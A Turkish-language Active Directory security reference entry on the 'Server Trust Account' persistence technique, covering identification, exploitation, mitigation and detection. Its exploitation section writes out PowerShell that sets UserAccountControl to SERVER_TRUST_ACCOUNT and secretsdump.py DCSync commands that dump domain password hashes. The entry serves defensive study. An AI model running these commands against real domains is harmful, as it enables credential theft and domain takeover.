

# TTP 0x10 - Server Trust Account

| Metric  | Value  |
|---------|--------|
| Severity                      | `Critical` |
| Ease of Identification        | `Easy` |
| Ease of Mitigation            | `Easy` |
| Ease of Detection             | `High` |
| Ease of Deception             | `Easy` |
| MITRE ATT&CK Tactic           | `` |
| MITRE ATT&CK Technique        | `` |
| MITRE ATT&CK Sub-Technique    | `` |
| MITRE ATT&CK ID               | `` |
| APT Groups                    | `Unknown`|
| Target                        | `` |
| Tools                         | `Impacket/Secretsdump.py` |
| Privilege Before Exploitation | `Domain account` |
| Privilege After Exploitation  | `Domain account`,`Privileged Domain Controller account` |
| Version                       | 0.1 |
| Date                          | 10.03.2023 |

## Preliminary

- MSA ve GMSA Active Directory ortamında hizmet ve zamanlanmış görevleri yönetmek için kullanılan özel hesaplardır. Bu hesaplar, ortamdaki Parola Politikasından etkilenmeyen ve parolaların otomatik olarak yenilendiği özel hesaplardır. GMSA, MSA’dan farklı olarak birden fazla sunuculu (cluster) yapılarda da kullanılabilmesidir. Bilgisayar, GMSA (Group Managed Service Account) ve MSA(Managed Service Account) hesapları üzerinde UserAccountControl Attribute değeri manipule edilerek Active Directory ortamında kalıcılık (Persistence) sağlanabilmektedir. 

- Domaine eklenmiş bilgisayar, GMSA ve MSA hesablarının UserAcountControl Attribute üzerinde WORKSTATION_TRUST_ACCOUNT (0x1000) değeri bulunmaktadır. WORKSTATION_TRUST_ACCOUNT değeri bu hesabın etki alanı üyesi olduğunu göstermektedir. Bu hesapları etki alanı üyesi oldukarı için Domain Computers grubunun üyesi ve 515 (Domain Computers) PrimaryGroupID değerine sahip olurlar.
- Domain Controller hesapları UserAccountControl attribute üzerinde SERVER_TRUST_ACCOUNT (0X2000) değeri bulunmaktadır. SERVER_TRUST_ACCOUNT değeri bu hesabın etki alanı hesabı olduğunu göstermektedir. Domanin Controller hesapları Domain Controllers grubu üyesi ve 516 (Domain Controllers) PrimaryGroupID değerine sahiptirler.

- Bigisayar ve MSA hesapları normal durumlarda 515 (Domain Computers) PrimaryGroupID değerine sahiptirler. 

## Description

Server Trust Account

Bilgisayar ve MSA hesapları üzerinde UserAccountControl attribute manipule edilerek gerşekleştirilen saldırı yöntemidir.
Server Trust Account değeri Domain Controller hesapların verilmektedir. Bu değer hesabın Domain Controller olduğunu göstermektedir.

Bilgisayar ve MSA hesapları üzerinde UserAccountControl attribute SERVER_TRUST_ACCOUNT (0X2000) olarak ayarlandığında PrimaryGroupID değeri 515 (Domain Computers) den 516'ya (Domain Controllers) değişmektedir. Yani bilgisayar hesabı Domain Controllers grubu üyesi olarak Domain Controller yetkilerine sahip olmaktadır. Aşağıdaki görselde UserAccountControl attribute değiştirlerek PrimaryGroupID değeri gözlemlenmiştir.



Saldırganlar Active Directory üzerinde bu yöntemi kullanarak kalıcılık sağlayabilirler. Saldırganın UserAccountControl değerini SERVER_TRUST_ACCOUNT olarak ayarlayabilmesi için Domain Objesi üzerinde DS-Install-Replica (Add/remove replica in domain) ayrıcalığına sahip kullanıcı ele geçirmiş olması gerekmektedir. Görselde de görüldüğü gibi DS-Install-Replica yetkisi olmayan kullanıcı ile denenmesi başarısızlıkla sonuçlanmıştır.


UserAcoountControl attribute değiştirme izinlerini incelediğimizde SERVER_TRUST_ACCOUNT değerini ayaralayabilmek için DS-Install-Replica ayrıcalığına sahip olunması gerektiğini aşağıdaki tabloda görebilmekteyiz.  


DS-Install-Replica (Add/remove replica in domain) yetkisi Domain Admins ve Enterprise Admins gruplarına verilmektedir. Bu işlem Active Directory ortamına yedek bir Domain Controller oluşturmak için kullanılır. Replica yöntemi ağdaki kullanıcıların ve cihazların isteklerine daha hızlı yanıt vermesi ve ağdaki veri yedekleme süreçlerinin daha hızlı ve güvenilir bir şekilde gerçekleştirilmesi için kullanılmaktadır.

Bu saldırı yöntemi saldırganlar tarafından genellikle istismar sonrası kalıcılık yöntemi olarak kullanılır.  

## Impact

Saldırganların SERVER_TRUST_ACCOUNT değerini değiştirebilmeleri için DS-Install-Replica (Add/remove replica in domain) yetkisine sahip olması gerekmektedir. DS-Install-Replica yetkisine sahip oldukları için çeşitli yöntemler ile Active Directory de kalıcılık sağlayabilirler. Saldırganın bakış açısı ve saldırı stratejisiyle Active Directory üzerinde çeşitli saldırı yöntemleri kullanarak daha tehlikeli olabilecek hareketler sergileyebilir. Bu yöntemlerin başında sistem üzerinde DCSync saldırısı yaparak krbtgt ve kullanıcı parola hash bilgilerini elde edebilir. Sonrsasında elde edilen hash değerleri ile PTH (Pass The Hash) veya istedikleri kullanıcı için Altın Bilet (Golden Ticket) oluşturabilirler. 

## Identification

UserAccounControl attribute üzerinde SERVER_TRUST_ACCOUNT ayarı aktif edilmiş bilgisayar ve MSA hesapları **Active Directory Users and Computers (dsa.msc)** aracı üzerinde görüntülenebilir. Bunun için uygulama üzerinden objenin detay sayfası (Properties) açılır. **Attribute Editor** sekmesi üzerinden, **UserAccountControl** değeri analiz edilerek tespit edilebilmektedir. Eğer bu değer içerisinde **SERVER_TRUST_ACCOUNT** ibaresi yer alıyorsa, obje üzerinde ayarın aktif edildiği anlaşılmaktadır.


**Active Directory Users and Computers (dsa.msc)** aracı yanı sıra SERVER_TRUST_ACCOUNT ayarı aktif edilmiş bilgisayar ve MSA hesapları aşağıdaki Powershell betikleri ile bulunabilmektedir.

```powershell
# Bringing Computer Accounts with the server trust attribute set.
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Get-ADComputer -Filter * -Properties UserAccountControl | Where-Object {$_.UserAccountControl -band "8192"}
```
```powershell
# Bringing Managed Service Accounts with the server trust attribute set.
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Get-ADServiceAccount -Filter * -Properties UserAccountControl | Where-Object {$_.UserAccountControl -band "8192"}
```

Domain objesi üzerinde DS-Install-Replica (Add/remove replica in domain) yetkisi verilmiş hesapları **Active Directory Users and Computers (dsa.msc)** aracı üzerinde görüntülenebilir. Bunun için uygulama üzerinden domain objesi detay sayfası (Properties) açılır. **Security** sekmesi altında **Advanced** kısmı açılır. Açılan sayfada **Permission** sekmesi içerisinde **Access** kısmında tanımlanmış DS-Install-Replica (Add/remove replica in domain) ACE (Acces Control Entry) girdilerini görebiliriz.


**Active Directory Users and Computers (dsa.msc)** aracı yanı sıra bu ACE girdileri PowerShell kod bloğu yardımıylada görüntülenebilmektedir.

```powershell
# Domin abject Distinguished Name to be analyzed
$ObjectDistinguishedName = "DC=windomain,DC=local";

# Object which has Access Control Entry on Domin abject
$IdentityReference = "WINDOMAIN\*"; #Everyone, Authenticated Users, Domain Users

# Access Control Type of Access Control Entry (Allow or Deny)
$AccessControlType = [System.Security.AccessControl.AccessControlType]::Allow;

# Active Directory Rights of Access Control Entry
$ActiveDirectoryRights = [System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight;

Write-Host "[!] Searching $ActiveDirectoryRights ACL set as $AccessControlType from $IdentityReference to $ObjectDistinguishedName" -ForegroundColor Green

# Retrieving Domin abject by Distinguished Name
Get-ADObject -Identity $ObjectDistinguishedName | 

# Extracting Distinguished Name
Select-Object -ExpandProperty DistinguishedName |

# Iterating selected Distinguished Names
ForEach-Object { 

    # Retrieving Access Control Entries
    (Get-Acl -Path "AD:$_").Access |

    # Filtering Access Control Entries based on filter above
    Where-Object { 
        $_.AccessControlType -eq $AccessControlType -and 
        $_.IdentityReference -like $IdentityReference -and 
        $_.ActiveDirectoryRights -like $ActiveDirectoryRights -and
        $_.ObjectType -eq "9923a32a-3607-11d2-b9be-0000f87a36b2"   # Ds-Install-Replica Guid
    }
}

# Exporting found Access Control Entries into CSV file
Export-Csv -Path "FS-$ObjectDistinguishedName-$ActiveDirectoryRights-ACLs.csv" -NoTypeInformation;
```

## Exploitation

Saldırılar Impacket/Secretsdump.py ve ServerUntrustAccount.ps1 yardımıyla gerçekleştirilebilmektedir. Saldırganlar sistem üzerinde DS-Install-Replica iznine sahip kullanıcı ele geçirdiklerinde ServerUntrustAccount.ps1 modülü ve ayrıca aşağıdaki powershell betiklerini kullanarak parolası bilinen bilgisayar ve MSA hesapları oluşturabilirler.   

```powershell
# Computer Name to created
$ComputerName = "Computer123"

# Converting Password to SecureString format
$Password = (ConvertTo-SecureString -AsPlainText -Force "Password123")
 
# Creating Computer 
New-ADComputer $ComputerName -AccountPassword $Password
```

```powershell
# MSA Name to created
$ManagedServiceAccountName = "IISSVCC"

# DNS Host Name to created
$DNSHostName = "iissvcc.forestall.lab"
 
# DUser Name to created
$UserName = "forestall"
# Creating MSA  
New-ADServiceAccount -Name $ManagedServiceAccountName -DNSHostName $DNSHostName -PrincipalAllowedToDelegateToAccount $UserName
```

Sonrasında oluşturulan bu bilgisayar ve MSA UserAccountControl attribute değeri SERVER_TRUST_ACCOUNT yapılabilmektedir. Bu işlemler manuel bir şekilde ServerUntrustAccount.ps1 modülü yada aşağıdaki powershell betikleri ile yapılabilmektedir.

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADComputer -Identity $ComputerName  -Replace @{"UserAccountControl" = 8192}
```

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADServiceAccount -Identity $MSAName -Replace @{"UserAccountControl" = 8192}
```

Bilgisayar ve MSA'lar bu işlemlerin ardından PrimaryGroupID değeri 516 olarak Domain Conrtoller yetkilerine sahip olmaktadır. Bundan sonraki adımlarda Impacket/Secretsdump.py ile sistem üzerinde DCSync saldırısı yaparak kullanıcı parola hash özetleri elde edilebilmektedir.

```shell
python3 secretsdump.py windomain.local/forestall\$:Test123.\!@192.168.119.141 -just-dc
```


```shell
python3 secretsdump.py windomain.local/iissvcc\$:@192.168.119.165 -hashes :f0d18f87a00e647fa126d4bfbc65b0c2 -just-dc
```


Saldırganlar elde ettikleri bu hash özetleri ile PTH (Pass The Hash) yada Golden Ticket vb. saldırılar yaparak sistemde daha yetkil olabilmektedirler.

## Mitigation

1. Active Directory ortamı üzerinde kullanıcılara ve bilgisayarlara verilen yetkiler kontrol edilmelidir. Yanlış verilmiş olan yetkiler düzenlenmeli ve düşürülmelidir.

2. MSA (ManegedServiceAccount) hesaplarının MSDS-ManagedPassword attribute üzerinde tutulan parolayı görebilme ayrıcalığına sahip hesapların tutulduğu MSA'lar üzerindeki PrincipalsAllowedToRetrieveManagedPassword attribute sürekli olarak kontrol edilmeli ve yanlış yetkilendirme yapılmış kullanıcların yetkileri alınmalıdır.

3. Active Directory üzerinde yanlış yapılandırmayla kullanıcı ve bilgisayar hesaplarına verilen çoğaltma DS-Install-Replica (Add/remove replica in domain) izinleri kontrol edilerek gerekli olmayan izinler alınmalıdır. 
   
   a. Yetkisi verilmiş hesapları **Active Directory Users and Computers (dsa.msc)** aracı üzerinde giderilebilir. Bunun için uygulama üzerinden domain objesi detay sayfası (Properties) açılır. **Security** sekmesi altında **Advanced** kısmı açılır. Açılan sayfada **Permission** sekmesi içerisinde **Access** kısmında tanımlanmış DS-Install-Replica (Add/remove replica in domain) ACE (Acces Control Entry) girdilerini  **Remove** diyerek giderebiliriz.

   


3. Active Directory üzerinde yanlış yapılandırmayla bilgisayar hesaplarına SERVER_TRUST_ACCOUNT değeri ile verilen yanlış yetkiler geri alınmalıdır. 

    a. Yanlış yetkilerin giderme işlemi **Active Directory Users and Computers (dsa.msc)** aracı ile manuel olarak da gerçekleştirilebilmektedir. Bunun için uygulama üzerinden objenin detay sayfası (Properties) açılır. **Attribute Editor** sekmesi içerisindeki, **UserAccountControl** attribute üzerine **4096** decimal değeri girilerek SERVER_TRUST_ACCOUNT değerine sahip bilgisayar hesabı WORKSTATION_TRUST_ACCOUNT (0x1000) değerine döndürülebilmektedir.


    

    b. **Active Directory Users and Computers (dsa.msc)** aracı yanı sıra UserAccounControl attribute üzerinde SERVER_TRUST_ACCOUNT değeri PowerShell kod bloğu yardımıyla etki alanına dahil olan bilgisayar ve MSA hesapları WORKSTATION_TRUST_ACCOUNT (0x1000) değerine döndürülebilmektedir.

    ```powershell
    # Computer Name to be analyzed
    $ComputerName = "forestall"

    # Setting UserAccountControl Attribute to WORKSTATION_TRUST_ACCOUNT
    # 4096 = WORKSTATION_TRUST_ACCOUNT Value in decimal
    Set-ADComputer -Identity $ComputerName -Replace @{"UserAccountControl" = 4096}
    ```

    ```powershell
    # Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
    # 8192 = SERVER_TRUST_ACCOUNT Value in decimal
    Set-ADServiceAccount -Identity $MSAName -Replace @{"UserAccountControl" = 4096}
    ```

## Detection

Server Trust Account saldırısının farklı fazlarda tespiti için aşağıdaki Event ID bilgileri ve Sigma kuralları incelenmeli ve kurum bünyesinde tespit teknolojileri üzerinde uygulanmalıdır.

| Event Id  | Title | Description |
|---------|--------|--------|
| 4742 | `A computer account was changed.` | Bilgisayar, MSA ve GMSA hesaplarında SERVER_TRUST_ACCOUNT ayarının aktif edilmesi tespit edilebilmektedir. |
| 4662 | `An operation was performed on an object.` | Objelerin userAccountControl değeri üzerinde yapılan okumalar tespit edilebilmektedir. |
| 5136 | `A directory service object was modified.` | Objelerin userAccountControl değeri üzerinde yapılan yazma işlemleri tespit edilebilmektedir. |

| Rule Id  | Title | TTP | Stage | Source | Event Id |
|---------|--------|--------|--------|--------|--------|
| 0x1 | [UserAccountControl Attribute Enumeration](detection-rules/Rule%200x1%20-%20UserAccountControl%20Attribute%20Enumeration.yaml) | `Multiple` | `Enumeration` | Security | 4662 |
| 0x2 | [UserAccountControl Attribute Modification](detection-rules/Rule%200x2%20-%20UserAccountControl%20Attribute%20Modification.yaml) | `Multiple` | `Vulnerability`, `Persistence` | Security | 5136 |
| 0x3 | [ServerTrustAccount Enabled on Computer Account](detection-rules/Rule%200x3%20-%20ServerTrustAccount%20Enabled%20on%20Computer%20Account.yaml) | `Server Trust Acoount` | `Vulnerability`, `Persistence` | Security | 4742 |

# References

- https://stealthbits.com/blog/server-untrust-account/
- https://github.com/STEALTHbits/ServerUntrustAccount
- https://github.com/canix1/ADACLScanner
- https://adsecurity.org/?p=873
- https://learn.microsoft.com/en-us/windows/win32/adschema/a-primarygroupid
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/
- https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties
- https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557